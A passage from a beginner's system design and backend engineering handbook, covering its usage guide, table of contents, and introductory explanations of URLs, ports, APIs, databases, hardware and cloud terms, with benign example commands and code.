# 🏗️ The System Design & Backend Engineering Handbook — Zero to Hero

> **Who this is for:** someone who says *"I don't know anything"* and wants to understand how real-world software
> (Netflix, Uber, WhatsApp, Amazon, banking apps…) is built, scaled, secured, deployed, and kept alive at 3 AM.
>
> **What you get:** 111 topics, each explained with an everyday analogy, the problem it solves, how it works,
> a Mermaid diagram, a code/config example, real-world usage, trade-offs, common mistakes, and a quiz at the end of every part.

**A note on your topic list:** "Sage Pattern" is usually called the **Saga Pattern**.
I have interpreted "pqq latency" as **p99 latency** (and also explain p50, p95, and p99.9).
Load balancing, race conditions, thread safety, WebSockets, and JWT use their standard spellings here.

**You do not need to understand everything today.** This is a textbook and reference, not a checklist
to memorise in a weekend. Start with Part 0, try the [first local lab](#185-your-first-local-lab-no-cloud-account),
then read one or two topics at a time. An honest "I can explain it with an example" is better than recognising a hundred names.

---

## 📖 How to Use This Handbook

**1. Start with Part 0, then follow the study plan.** Some topics refer ahead to concepts introduced later;
follow those references when useful rather than trying to master every detail on your first pass.
Use your editor's outline or the clickable contents to navigate this long file.

**2. Every topic follows the same recipe**, so you always know where to look:

| Label | What it gives you |
|---|---|
| **In one line** | The idea in one simple sentence |
| 🏠 **Real-life analogy** | A non-technical story to "feel" the idea |
| ❓ **What problem does it solve?** | What goes wrong *without* it |
| ⚙️ **How it works** | The mechanics, step by step |
| 📊 Diagram | A Mermaid picture of the flow |
| 💻 **Example** | Real code / config you will actually see at work |
| 🌍 **Real-world usage** | Who uses it, which tools implement it |
| ⚖️ **Trade-offs** | Nothing is free — what you pay for it |
| ⚠️ **Common mistakes** | Traps that bite beginners (and seniors) |
| 🎯 **Remember** | The one-liner to remember (great for interviews) |
| 🔗 **See also** | Related topic numbers (e.g., `#26 Retries`) |

**3. Do the quizzes.** The teaching parts end with a 🧠 quiz. Click *"Show answer"* only after you've tried.

**4. Revise with the cheat sheet.** [Part 18](#part-18--learning-roadmap-cheat-sheet--glossary) has a one-line summary of all 111 topics,
a study plan, practice projects, and a glossary.

### 👀 How to see the diagrams

The diagrams are written in **Mermaid** (text that turns into pictures).

- **GitHub / GitLab:** supported Mermaid diagrams can render in the Markdown preview, but hosted
  preview size limits may truncate a handbook this large. Download/open the complete file locally if that happens.
- **VS Code:** install the extension **"Markdown Preview Mermaid Support"** (`bierner.markdown-mermaid`),
  open this file, then press `Ctrl+Shift+V` (Mac: `Cmd+Shift+V`) to open the preview.
- **Anywhere else:** the text inside each diagram still describes the flow. You can paste these public
  teaching diagrams into <https://mermaid.live>; never paste private system details or secrets into a public editor.

### Reading and Running the Examples Safely

- Most snippets demonstrate **one concept**, not a complete application. Undefined helpers such as
  `charge_card` or `db.transaction()` are illustrative interfaces, not built-in Python functions.
  Configuration snippets assume the named tool and a compatible version are already installed.
- The first local lab in Part 18 is a complete, standard-library-only starting point. You do not need
  Docker, Kubernetes, cloud credentials, or a paid account to begin learning.
- Use a **disposable local lab** for later experiments. Never load-test, stop services, change DNS,
  run chaos experiments, or run security demonstrations on systems you do not own and have permission to test.
- Cloud examples can incur charges. Read plans before applying Terraform, check which Kubernetes
  context you are using, and learn resource-specific cleanup before creating anything.
- Values, timings, architecture sizes, and service names in examples are illustrative unless a source is given.
  Product limits and defaults change; consult the official links in Part 18 before production use.
- A diagram omits details to teach one idea. It is not a production security, payment, or reliability guarantee.

---

## 🗺️ Table of Contents

- **[Part 0 — Start Here: The Absolute Basics](#part-0--start-here-the-absolute-basics)**
  - [0.1 What Happens When You Type a URL?](#01-what-happens-when-you-type-a-url)
  - [0.2 Clients, Servers, IP Addresses, and Ports](#02-clients-servers-ip-addresses-and-ports)
  - [0.3 What Is an API? (Requests, Responses, REST, JSON)](#03-what-is-an-api-requests-responses-rest-json)
  - [0.4 Databases 101 (SQL vs NoSQL)](#04-databases-101-sql-vs-nosql)
  - [0.5 Inside a Computer: CPU, Memory, Disk, Processes, and Threads](#05-inside-a-computer-cpu-memory-disk-processes-and-threads)
  - [0.6 The Cloud, Virtual Machines, Containers, Regions](#06-the-cloud-virtual-machines-containers-regions)
  - [0.7 Monolith vs Microservices](#07-monolith-vs-microservices)
  - [0.8 Units and Numbers You Will See Everywhere](#08-units-and-numbers-you-will-see-everywhere)
  - [0.9 The Journey: From 1 User to 10 Million Users](#09-the-journey-from-1-user-to-10-million-users)
- **[Part 1 — Networking Fundamentals](#part-1--networking-fundamentals)**
  - [1. DNS](#1-dns)
  - [2. TCP vs UDP](#2-tcp-vs-udp)
  - [3. HTTP/2 & HTTP/3](#3-http2--http3)
  - [4. TLS](#4-tls)
  - [5. Latency](#5-latency)
  - [6. Throughput](#6-throughput)
  - [7. p99 Latency (Percentiles)](#7-p99-latency-percentiles)
  - [8. Tail Latency](#8-tail-latency)
  - [9. CDN](#9-cdn)
  - [10. Edge Caching](#10-edge-caching)
- **[Part 2 — Traffic Management](#part-2--traffic-management)**
  - [11. Reverse Proxies](#11-reverse-proxies)
  - [12. Load Balancing](#12-load-balancing)
  - [13. API Gateway](#13-api-gateway)
  - [14. Rate Limiting](#14-rate-limiting)
  - [15. Service Discovery](#15-service-discovery)
  - [16. Health Checks](#16-health-checks)
  - [17. Liveness & Readiness Probes](#17-liveness--readiness-probes)
- **[Part 3 — APIs & Real-Time Communication](#part-3--apis--real-time-communication)**
  - [18. gRPC](#18-grpc)
  - [19. Webhooks](#19-webhooks)
  - [20. Long Polling](#20-long-polling)
  - [21. Server-Sent Events](#21-server-sent-events)
  - [22. WebSockets](#22-websockets)
  - [23. API Versioning](#23-api-versioning)
  - [24. Semantic Versioning](#24-semantic-versioning)
- **[Part 4 — Resilience Patterns](#part-4--resilience-patterns)**
  - [25. Timeouts](#25-timeouts)
  - [26. Retries](#26-retries)
  - [27. Exponential Backoff (& Jitter)](#27-exponential-backoff--jitter)
  - [28. Circuit Breakers](#28-circuit-breakers)
  - [29. Idempotency](#29-idempotency)
  - [30. Backpressure](#30-backpressure)
- **[Part 5 — Async Messaging & Event-Driven Systems](#part-5--async-messaging--event-driven-systems)**
  - [31. Message Queues](#31-message-queues)
  - [32. Pub/Sub](#32-pubsub)
  - [33. Event-Driven Architecture](#33-event-driven-architecture)
  - [34. Dead Letter Queues](#34-dead-letter-queues)
  - [35. Cron Jobs](#35-cron-jobs)
  - [36. Distributed Transactions](#36-distributed-transactions)
  - [37. Saga Pattern](#37-saga-pattern)
- **[Part 6 — Caching](#part-6--caching)**
  - [38. Caching](#38-caching)
  - [39. Cache Invalidation](#39-cache-invalidation)
- **[Part 7 — Databases](#part-7--databases)**
  - [40. Database Indexing](#40-database-indexing)
  - [41. Query Optimization](#41-query-optimization)
  - [42. N+1 Queries](#42-n1-queries)
  - [43. Connection Pooling](#43-connection-pooling)
  - [44. Replication](#44-replication)
  - [45. Read Replicas](#45-read-replicas)
  - [46. Partitioning](#46-partitioning)
  - [47. Sharding](#47-sharding)
  - [48. Database Migrations](#48-database-migrations)
  - [49. Schema Versioning](#49-schema-versioning)
- **[Part 8 — Distributed Systems Theory](#part-8--distributed-systems-theory)**
  - [50. CAP Theorem](#50-cap-theorem)
  - [51. Eventual Consistency](#51-eventual-consistency)
  - [52. Network Partitions](#52-network-partitions)
  - [53. Clock Skew](#53-clock-skew)
  - [54. Leader Election](#54-leader-election)
  - [55. Distributed Locks](#55-distributed-locks)
- **[Part 9 — Concurrency & Memory](#part-9--concurrency--memory)**
  - [56. Race Conditions](#56-race-conditions)
  - [57. Thread Safety](#57-thread-safety)
  - [58. Optimistic Locking](#58-optimistic-locking)
  - [59. Pessimistic Locking](#59-pessimistic-locking)
  - [60. Deadlocks](#60-deadlocks)
  - [61. Memory Leaks](#61-memory-leaks)
  - [62. Garbage Collection](#62-garbage-collection)
- **[Part 10 — Scaling & Cost](#part-10--scaling--cost)**
  - [63. Vertical Scaling](#63-vertical-scaling)
  - [64. Horizontal Scaling](#64-horizontal-scaling)
  - [65. Autoscaling](#65-autoscaling)
  - [66. Cold Starts (Serverless)](#66-cold-starts-serverless)
  - [67. Serverless Limits](#67-serverless-limits)
  - [68. Cost Optimization](#68-cost-optimization)
- **[Part 11 — Containers, Infrastructure & Delivery](#part-11--containers-infrastructure--delivery)**
  - [69. Docker](#69-docker)
  - [70. Kubernetes](#70-kubernetes)
  - [71. Helm Charts](#71-helm-charts)
  - [72. Infrastructure as Code](#72-infrastructure-as-code)
  - [73. Terraform](#73-terraform)
  - [74. CI/CD](#74-cicd)
  - [75. Build Caching](#75-build-caching)
  - [76. Dependency Hell](#76-dependency-hell)
- **[Part 12 — Release Strategies](#part-12--release-strategies)**
  - [77. Feature Flags](#77-feature-flags)
  - [78. Rolling Deployments](#78-rolling-deployments)
  - [79. Blue-Green Deployment](#79-blue-green-deployment)
  - [80. Canary Releases](#80-canary-releases)
  - [81. Rollbacks](#81-rollbacks)
- **[Part 13 — Observability](#part-13--observability)**
  - [82. Observability](#82-observability)
  - [83. Logging](#83-logging)
  - [84. Metrics](#84-metrics)
  - [85. Distributed Tracing](#85-distributed-tracing)
  - [86. Monitoring](#86-monitoring)
  - [87. Alerts](#87-alerts)
  - [88. SLIs](#88-slis)
  - [89. SLOs](#89-slos)
  - [90. Error Budgets](#90-error-budgets)
- **[Part 14 — Security](#part-14--security)**
  - [91. Secrets Management](#91-secrets-management)
  - [92. IAM](#92-iam)
  - [93. OAuth 2.0 (& OIDC)](#93-oauth-20--oidc)
  - [94. JWT & Key Rotation](#94-jwt--key-rotation)
  - [95. Encryption in Transit](#95-encryption-in-transit)
  - [96. Encryption at Rest](#96-encryption-at-rest)
  - [97. WAF — Web Application Firewall](#97-waf--web-application-firewall)
  - [98. DDoS Protection](#98-ddos-protection)
  - [99. CORS](#99-cors)
  - [100. CSRF](#100-csrf)
  - [101. SQL Injection](#101-sql-injection)
  - [102. XSS](#102-xss)
  - [103. SSRF](#103-ssrf)
- **[Part 15 — Reliability & Disaster Recovery](#part-15--reliability--disaster-recovery)**
  - [104. Backups](#104-backups)
  - [105. Disaster Recovery](#105-disaster-recovery)
  - [106. Failover](#106-failover)
  - [107. Multi-Region Deployment](#107-multi-region-deployment)
  - [108. Chaos Engineering](#108-chaos-engineering)
- **[Part 16 — Operations & Incident Response](#part-16--operations--incident-response)**
  - [109. Production Incidents](#109-production-incidents)
  - [110. On-Call](#110-on-call)
  - [111. Postmortems](#111-postmortems)
- **[Part 17 — Putting It All Together](#part-17--putting-it-all-together)**
  - [17.1 Case Study: Designing a Food Delivery App](#171-case-study-designing-a-food-delivery-app)
  - [17.2 How to Approach Any System Design Problem](#172-how-to-approach-any-system-design-problem)
  - [17.3 A Bad Day in Production: One Incident, Many Concepts](#173-a-bad-day-in-production-one-incident-many-concepts)
- **[Part 18 — Learning Roadmap, Cheat Sheet & Glossary](#part-18--learning-roadmap-cheat-sheet--glossary)**
  - [18.1 An 8-Week Study Plan](#181-an-8-week-study-plan)
  - [18.2 Hands-On Projects (Learning by Building)](#182-hands-on-projects-learning-by-building)
  - [18.3 One-Line Cheat Sheet (All 111 Topics)](#183-one-line-cheat-sheet-all-111-topics)
  - [18.4 Glossary (Words You'll Hear Every Day)](#184-glossary-words-youll-hear-every-day)
  - [18.5 Your First Local Lab (No Cloud Account)](#185-your-first-local-lab-no-cloud-account)
  - [18.6 Official References and Further Reading](#186-official-references-and-further-reading)
  - [18.7 Where to Go Next](#187-where-to-go-next)

---

## Part 0 — Start Here: The Absolute Basics

Before learning *load balancers* or *sharding*, you need about ten basic words: client, server, IP address, port,
request, response, API, database, process, thread. This part teaches them using one story: **what happens when you
open a website**. Every later part of this handbook zooms into one step of that story.



---

### 0.1 What Happens When You Type a URL?

> **In one line:** Your browser finds the server's address, opens a secure connection, asks for a page, and the server
> builds the answer — often by asking caches and databases — and sends it back.

**🏠 Real-life analogy:** Ordering a pizza by phone. You look up the pizzeria's number (**DNS**), dial and wait for
someone to pick up (**TCP connection**), agree on a secret language nobody else understands (**TLS encryption**),
place the order (**HTTP request**). The receptionist (**load balancer**) passes it to a free cook (**app server**),
who checks the ready-made shelf first (**cache**) and the pantry if needed (**database**). The pizza comes back to you
(**HTTP response**).

**⚙️ How it works (simplified):**

1. **DNS lookup** — the browser turns `www.shop.com` into an IP address like `93.184.216.34` (see #1).
2. **TCP connection** — the browser and the server do a quick "hello" handshake (see #2).
3. **TLS handshake** — they agree on encryption keys so nobody can snoop (see #4).
4. **HTTP request** — the browser sends `GET /products` (see #3).
5. **CDN / edge** — images and scripts often come from a server near you (see #9).
6. **Load balancer** — picks one of many app servers (see #12).
7. **App server** — runs your company's code (business logic).
8. **Cache, then database** — fetch data quickly from memory, or from the database if needed (see #38, #40).
9. **HTTP response** — HTML/JSON comes back and the browser draws the page.



**🎯 Remember:** Almost every topic in this handbook is about making one of these arrows **faster**, **safer**,
**cheaper**, or **less likely to break**.

---

### 0.2 Clients, Servers, IP Addresses, and Ports

> **In one line:** A **client** asks, a **server** answers; an **IP address** says *which machine*, a **port** says *which program on that machine*.

**🏠 Real-life analogy:** An IP address is a building's street address. A port is the apartment number inside the
building. Port 443 is "the HTTPS apartment", port 5432 is "the PostgreSQL apartment".

| Word | Meaning | Example |
|---|---|---|
| **Client** | The program that sends requests | Browser, mobile app, another service |
| **Server** | A program (or machine) that waits for requests and answers | Web server, database server |
| **IP address** | Numeric address of a machine on a network | `142.250.183.14` (IPv4), `2607:f8b0::200e` (IPv6) |
| **Port** | Number identifying a program on a machine | 80 HTTP, 443 HTTPS, 22 SSH, 5432 PostgreSQL, 6379 Redis |
| **Domain name** | Human-friendly name for an IP | `google.com` |
| **Protocol** | Agreed rules for talking | HTTP, TCP, UDP, TLS |
| **Packet** | A small chunk of data travelling over the network | Typically ~1,500 bytes max on Ethernet |



**💻 Example:**

```bash
# Which IP does a domain point to?
nslookup example.com

# Is something listening on a port? (-v verbose, -z just scan)
nc -vz example.com 443

# See the full request/response conversation
curl -v https://example.com
```

**🎯 Remember:** `IP:port` is the full "address" of a running program, e.g. `10.0.0.7:8080`.

---

### 0.3 What Is an API? (Requests, Responses, REST, JSON)

> **In one line:** An **API** (Application Programming Interface) is a menu of things a program lets other programs ask for.

**🏠 Real-life analogy:** A restaurant menu. You don't walk into the kitchen; you order "Pasta #12" from the menu and
the kitchen gives you pasta. The menu is the API; the kitchen is hidden.

**⚙️ How it works:** Most web APIs today are **REST over HTTP** and speak **JSON** (a simple text format for data).

- A **request** has a **method** (verb), a **URL** (which thing), **headers** (metadata), and an optional **body** (data).
- A **response** has a **status code**, headers, and a body.

| HTTP method | Meaning | Example |
|---|---|---|
| `GET` | Read something | `GET /users/42` |
| `POST` | Create something / do an action | `POST /orders` |
| `PUT` | Replace something completely | `PUT /users/42` |
| `PATCH` | Change part of something | `PATCH /users/42` |
| `DELETE` | Delete something | `DELETE /orders/7` |

| Status family | Meaning | Common examples |
|---|---|---|
| `2xx` | Success | `200 OK`, `201 Created`, `204 No Content` |
| `3xx` | Go somewhere else | `301 Moved Permanently`, `304 Not Modified` |
| `4xx` | **You** (client) made a mistake | `400 Bad Request`, `401 Unauthorized`, `403 Forbidden`, `404 Not Found`, `429 Too Many Requests` |
| `5xx` | **We** (server) broke | `500 Internal Server Error`, `502 Bad Gateway`, `503 Service Unavailable`, `504 Gateway Timeout` |



**💻 Example:**

```http
POST /orders HTTP/1.1
Host: api.pizza.com
Content-Type: application/json
Authorization: Bearer eyJhbGciOi...

{"item": "margherita", "size": "large", "quantity": 2}
```

```http
HTTP/1.1 201 Created
Content-Type: application/json

{"orderId": 981, "status": "PREPARING", "etaMinutes": 25}
```

```python
# The same call from Python
import requests

resp = requests.post(
    "https://api.pizza.com/orders",
    json={"item": "margherita", "size": "large", "quantity": 2},
    headers={"Authorization": "Bearer <token>"},
    timeout=5,  # always set a timeout! (see #25)
)
print(resp.status_code, resp.json())
```

**🎯 Remember:** 4xx = "your fault", 5xx = "our fault". Retrying a 4xx is usually pointless; retrying some 5xx can help (see #26).

---

### 0.4 Databases 101 (SQL vs NoSQL)

> **In one line:** A **database** is a program whose whole job is to store data safely and find it again quickly.

**🏠 Real-life analogy:** A **SQL** database is a set of strict spreadsheets with fixed columns that can reference each other.
A **NoSQL** database is more like a filing cabinet of folders (documents) or a giant dictionary (key → value) —
more flexible, often easier to spread over many machines.

| | **SQL (relational)** | **NoSQL** |
|---|---|---|
| Shape | Tables with rows & columns, fixed schema | Documents, key-value, wide-column, graph |
| Query language | SQL (`SELECT ... JOIN ...`) | Varies per product |
| Transactions | Strong ACID transactions (see #36) | Varies, often limited to one item/partition |
| Scaling | Usually scale **up** first; scaling out needs work (see #47) | Many are built to scale **out** |
| Examples | PostgreSQL, MySQL, SQL Server, Oracle | MongoDB, DynamoDB, Cassandra, Redis, Neo4j |
| Good for | Money, orders, anything relational | Huge scale, flexible data, caching, feeds |



```sql
-- Find the 5 most recent orders of user 42, with how many items each has
SELECT o.id, o.status, SUM(oi.quantity) AS items
FROM orders o
JOIN order_items oi ON oi.order_id = o.id
WHERE o.user_id = 42
GROUP BY o.id, o.status
ORDER BY o.id DESC
LIMIT 5;
```

**🎯 Remember:** Start with PostgreSQL unless you have a clear reason not to. Most "we need NoSQL" decisions are really "we need an index" (see #40).

---

### 0.5 Inside a Computer: CPU, Memory, Disk, Processes, and Threads

> **In one line:** Programs run on the **CPU**, keep working data in **memory (RAM)**, save long-term data on **disk**,
> and the running program is a **process** made of one or more **threads**.

**🏠 Real-life analogy:** A kitchen. The **CPU cores** are the chefs. **RAM** is the countertop (small, very fast to reach).
The **disk** is the storeroom (big, slower). A **process** is one restaurant's kitchen; **threads** are chefs working in
that same kitchen and sharing the same countertop — which is exactly why they can bump into each other (see Part 9).

| Resource | Speed (rough) | Size (typical server) | Lost on reboot? |
|---|---|---|---|
| CPU cache | ~1-10 nanoseconds | MBs | Yes |
| RAM | ~100 nanoseconds | GBs to TBs | Yes |
| SSD | ~10-100 microseconds | TBs | No |
| Network (same data center) | ~0.5 milliseconds round trip | — | — |
| Network (across continents) | ~100+ milliseconds round trip | — | — |



**🎯 Remember:** Memory is ~1,000× faster than SSD and the network is slower still — that's why **caching** (Part 6) exists.

---

### 0.6 The Cloud, Virtual Machines, Containers, Regions

> **In one line:** "The cloud" is renting someone else's computers by the hour; you get them as **virtual machines**,
> **containers**, or **functions**, located in **regions** around the world.

**🏠 Real-life analogy:** Instead of building your own power plant, you plug into the electricity grid and pay for what you use.

| Term | Plain meaning | Examples |
|---|---|---|
| **Cloud provider** | Company renting computers, storage, networks | AWS, Google Cloud (GCP), Microsoft Azure |
| **VM (virtual machine)** | A full pretend computer carved out of a real one | AWS EC2, GCP Compute Engine |
| **Container** | A lightweight package of your app + its dependencies (see #69) | Docker, run on Kubernetes (see #70) |
| **Serverless function** | Just upload a function; it runs when called (see #66) | AWS Lambda, Cloudflare Workers |
| **Region** | A geographic area with data centers | `us-east-1` (N. Virginia), `eu-west-1` (Ireland) |
| **Availability Zone (AZ)** | One or more separate data centers inside a region | `us-east-1a`, `us-east-1b` |
| **Object storage** | Infinite "folder" for files over HTTP | AWS S3, Google Cloud Storage |



**🎯 Remember:** Spread across **at least two AZs** for important systems — a single data center *will* fail someday (see Part 15).

---

### 0.7 Monolith vs Microservices

> **In one line:** A **monolith** is one big program that does everything; **microservices** split the system into many
> small programs that talk over the network.

**🏠 Real-life analogy:** A monolith is one Swiss Army knife. Microservices are a toolbox of separate tools — each is
easier to replace, but you now have to carry, organise, and coordinate the whole box.

